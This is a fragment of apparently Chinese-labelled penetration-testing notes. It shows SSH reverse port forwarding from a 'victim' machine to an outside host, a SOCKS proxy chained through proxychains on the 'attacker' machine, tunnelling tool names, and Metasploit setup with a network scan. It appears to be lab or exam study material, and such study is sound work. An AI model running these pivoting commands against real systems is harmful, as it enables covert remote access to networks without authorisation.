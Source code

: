 受害者机器:

ssh -f -N -R 2222:127.0.0.1:22 root\@208.68.234.100

攻击者机器:

ssh -f -N -D 127.0.0.1:8080 -p 2222 hax0r\@127.0.0.1

proxychains /etc/proxychains.conf

socks5 127.0.0.1 8080

HTTP Tunneling

Traffic Encapsulation

HTTPTunnel or stunnel

![](media/e5c1ee90b306088fcc6b88bcc78f572e.png)

MSF

systemctl start postgresql

systemctl enable postgresql

msfconsole

show -h

msf \> hosts

msf \> db_nmap 10.11.1.1-254
